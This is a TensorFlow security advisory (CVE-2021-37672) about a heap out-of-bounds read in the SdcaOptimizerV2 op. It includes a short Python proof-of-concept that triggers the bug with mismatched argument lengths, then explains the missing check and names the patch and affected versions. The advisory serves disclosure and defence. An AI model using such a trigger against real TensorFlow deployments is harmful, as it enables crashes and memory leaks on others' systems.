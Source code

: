 ## TFSA-2021-146: Heap OOB in `SdcaOptimizerV2`

### CVE Number
CVE-2021-37672

### Impact
An attacker can read from outside of bounds of heap allocated data by sending
specially crafted illegal arguments to `tf.raw_ops.SdcaOptimizerV2`:

```python
import tensorflow as tf

tf.raw_ops.SdcaOptimizerV2(
  sparse_example_indices=[[1]],
  sparse_feature_indices=[[1]],
  sparse_feature_values=[[1.0,2.0]],
  dense_features=[[1.0]],
  example_weights=[1.0],
  example_labels=[],
  sparse_indices=[1],
  sparse_weights=[1.0],
  dense_weights=[[1.0]],
  example_state_data=[[100.0,100.0,100.0,100.0]],
  loss_type='logistic_loss',
  l1=100.0,
  l2=100.0,
  num_loss_partitions=1,
  num_inner_iterations=1,
  adaptive=True)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/sdca_internal.cc#L320-L353)
does not check that the length of `example_labels` is the same as the number of
examples.

### Patches
We have patched the issue in GitHub commit
[a4e138660270e7599793fa438cd7b2fc2ce215a6](https://github.com/tensorflow/tensorflow/commit/a4e138660270e7599793fa438cd7b2fc2ce215a6).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
